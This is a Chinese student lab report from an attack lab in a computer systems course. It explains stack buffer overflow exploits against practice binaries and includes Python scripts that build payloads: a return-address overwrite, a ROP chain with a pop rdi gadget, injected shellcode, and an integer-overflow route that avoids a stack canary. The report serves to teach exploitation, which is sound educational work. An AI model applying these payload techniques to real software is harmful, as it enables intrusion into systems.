




# 栈溢出攻击实验

## 题目解决思路


### Problem 1: 
#### 分析：
由反汇编代码可知，func函数调用strcpy复制字符串，而strcpy函数不检查源字符串长度，因此可通过写入超出缓冲区边界的数据覆盖栈上的其他数据，将func函数的返回地址修改为func1函数的地址0x401216，从而使程序在func函数返回时跳转到0x401216执行func1函数，输出目标字符串 "Yes!I like ICS!"。  
由lea    -0x8(%rbp),%rax可知缓冲区的起始地址为rbp-0x8，而返回地址为rbp+0x8，因此从缓冲区到返回地址的总偏移量为16字节。  
综上，payload共24字节，前16字节用来填充从缓冲区开始到返回地址前的空间，可以是任意数据，后8字节是func1函数地址0x401216的小端序"\x16\x12\x40\x00\x00\x00\x00\x00"。

#### 解决方案：
```python
padding = b"A" * 16
func1_addr = b"\x16\x12\x40\x00\x00\x00\x00\x00"  # func1地址：0x401216（小端序）
payload = padding + func1_addr

# 将payload写入ans1.txt文件
with open("ans1.txt", "wb") as f:
    f.write(payload)

print("Payload generated and saved to ans1.txt")
print(f"Payload length: {len(payload)} bytes")
print(f"Payload hex: {payload.hex()}")
```
#### 结果：



### Problem 2:
#### 分析：
由反汇编代码可知，func函数调用memcpy进行复制，而memcpy函数不管目标缓冲区能否容纳都会复制56字节，因此可通过写入超出缓冲区边界的数据覆盖栈上的其他数据，将func函数的返回地址修改为pop    %rdi的地址0x4012c7，从而使程序在func函数返回时从栈中弹出0x3f8到rdi寄存器，再跳转到0x401216执行func2函数。func2检查得rdi寄存器的值确为0x3f8，符合条件，故输出目标字符串 "Yes!I like ICS!"。  
由lea    -0x8(%rbp),%rax可知缓冲区的起始地址为rbp-0x8，而返回地址为rbp+0x8，因此从缓冲区到返回地址的总偏移量为16字节。  
综上，payload共40字节，前16字节用来填充从缓冲区开始到返回地址前的空间，可以是任意数据，后24字节依次为pop    %rdi地址0x4012c7的小端序 "\xc7\x12\x40\x00\x00\x00\x00\x00"、  
参数值0x3f8的小端序 "\xf8\x03\x00\x00\x00\x00\x00\x00"、  
func2函数地址0x401216的小端序 "\x16\x12\x40\x00\x00\x00\x00\x00"。

#### 解决方案：
```python
padding = b"A" * 16
pop_rdi_addr = b"\xc7\x12\x40\x00\x00\x00\x00\x00"  # pop_rdi地址：0x4012c7
param_value = b"\xf8\x03\x00\x00\x00\x00\x00\x00"   # 参数值：0x3f8
func2_addr = b"\x16\x12\x40\x00\x00\x00\x00\x00"    # func2地址：0x401216
payload = padding + pop_rdi_addr + param_value + func2_addr

# 将payload写入ans2.txt文件
with open("ans2.txt", "wb") as f:
    f.write(payload)

print("Payload generated and saved to ans2.txt")
print(f"Payload length: {len(payload)} bytes")
print(f"Payload hex: {payload.hex()}")
```
#### 结果：



### Problem 3: 
#### 分析：
由于程序并没有采取不可执行栈（NX）防护，我们可以借助shellcode注入实现栈溢出攻击。

由反汇编代码可知，程序保存了栈指针到全局变量saved_rsp，且存在jmp_xs函数，可跳转到saved_rsp+0x10。  
由mov    %rsp,%rbp和sub    $0x30,%rsp可知rsp=rbp-0x30，又由mov    %rsp,%rax可知saved_rsp=rsp，故saved_rsp+0x10=rbp-0x20，结合后续分析可知rbp-0x20恰为缓冲区的起始地址。

func函数调用memcpy进行复制，而memcpy函数不管目标缓冲区能否容纳都会复制56字节，因此可通过写入超出缓冲区边界的数据覆盖栈上的其他数据，将func函数的返回地址修改为jmp_xs的地址0x401334，从而使程序在func函数返回时跳转到缓冲区起始并执行shellcode：从栈中弹出0x72到rdi寄存器，再跳转到0x401216执行func1函数。func1检查得rdi寄存器的值确为0x72，符合条件，故输出幸运数字114。

由lea    -0x20(%rbp),%rax可知缓冲区的起始地址为rbp-0x20，而返回地址为rbp+0x8，因此从缓冲区到返回地址的总偏移量为40字节。  
综上，payload共48字节，前40字节填充从缓冲区开始到返回地址前的空间，包括我们构造的shellcode和负责填充剩余空间的任意数据，后8字节为jmp_xs地址0x401334的小端序 "\x34\x13\x40\x00\x00\x00\x00\x00"。

#### 解决方案：
```python
# shellcode: 将0x72放入rdi，然后调用func1
shellcode = (
    b"\xbf\x72\x00\x00\x00" +      # mov edi, 0x72
    b"\x68\x16\x12\x40\x00" +      # push 0x401216 (func1地址)
    b"\xc3"                        # ret
)
padding = b"A" * (40 - len(shellcode))  # 填充到40字节
jmp_xs_addr = b"\x34\x13\x40\x00\x00\x00\x00\x00"   # jmp_xs地址：0x401334
payload = shellcode + padding + jmp_xs_addr

# 将payload写入ans3.txt文件
with open("ans3.txt", "wb") as f:
    f.write(payload)

print("Payload generated and saved to ans3.txt")
print(f"Payload length: {len(payload)} bytes")
print(f"Payload hex: {payload.hex()}")
```
#### 结果：



### Problem 4: 
#### 分析：
程序在函数开头将随机Canary值保存到栈上紧邻返回地址前的位置，
```c
    136c:       64 48 8b 04 25 28 00    mov    %fs:0x28,%rax
    1373:       00 00
    1375:       48 89 45 f8             mov    %rax,-0x8(%rbp)
```
再在函数返回前从栈上读取Canary值与原始值比较，  
若未被修改，即二者相等，则跳过失败处理继续执行程序，否则调用失败处理。
```c
    140a:       48 8b 45 f8             mov    -0x8(%rbp),%rax
    140e:       64 48 2b 04 25 28 00    sub    %fs:0x28,%rax
    1415:       00 00
    1417:       74 05                   je     141e <func+0xc1>
    1419:       e8 b2 fc ff ff          call   10d0 <__stack_chk_fail@plt>
```
由于局部变量在Canary之下，即使缓冲区溢出也会先破坏Canary，任何覆盖返回地址的尝试都会修改Canary值，触发__stack_chk_fail，因此我们考虑绕过Canary保护，通过合法路径进行攻击。

由反汇编代码可知，func1只要被调用就会输出相应的提示字符串,  
所以我们只需要使程序正常进入func1函数即可。  
func函数获取输入参数后先分别存到rbp-0x18处的变量1、rbp-0xc处的变量2中，再进入循环：循环0xfffffffe次，每次循环变量1减1。循环结束后，先检查变量1是否为1，若不等则跳转到错误处理，若相等则检查变量2是否为-1，两个条件都满足才跳转到<func+0x99>调用func1。

由于变量2的值不会改变，因此我们直接考虑输入-1的情况：循环后变量1的值为-1-0xfffffffe，即-0xffffffff，而在32位有符号整数中，由于整数溢出，-0xffffffff的二进制表示与1相同，-0xffffffff实际上和1相等，满足条件。  

#### 解决方案：
综上，我们选择直接运行程序并输入三个-1，如下图所示。
#### 结果：



## 思考与总结
因为全是碎碎念/吐槽/废话，所以决定分点作答节省助教哥姐的时间！
1. 虽然这样说并不能很好地概括全部体验——但是attacklab确实可以说是这几个lab里面最好玩的lab了！（其实bomblab也很好玩，但是一直提心吊胆怕爆炸在各种地方反复打断点还是刺激得太超过了hhhhhh所以这一点上还是attacklab能给人安全感得多啊）不过这样说有因为就这两个lab不怎么用写代码所以更喜欢的偷懒之嫌…！
2. 怎么说，虽然已经是期末权衡各科复习时间的相对最优解了，但还是忍不住后悔没有在考前把这两个lab和作业写完啊……果然在考题中有体现呢（安详）只能说机会都是留给有准备的人的，所以希望这么点后悔能让我在后面几个学期吸取教训吧。
3. （一个小小的可以当成胡说的建议）如果可以的话把师弟师妹们的ics上课时间安排在下午吧！放在早八实在是意志力和智力的双重挑战啊。
4. 感谢哥姐看废话看到这里，感谢一个学期的包容和辛勤付出（加速器真的很好用啊啊啊！！！）衷心祝哥姐前程似锦，一切顺利！（鞠躬）


## 参考资料

CTF Wiki（https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/stack-intro/）
DeepSeek（https://chat.deepseek.com/）
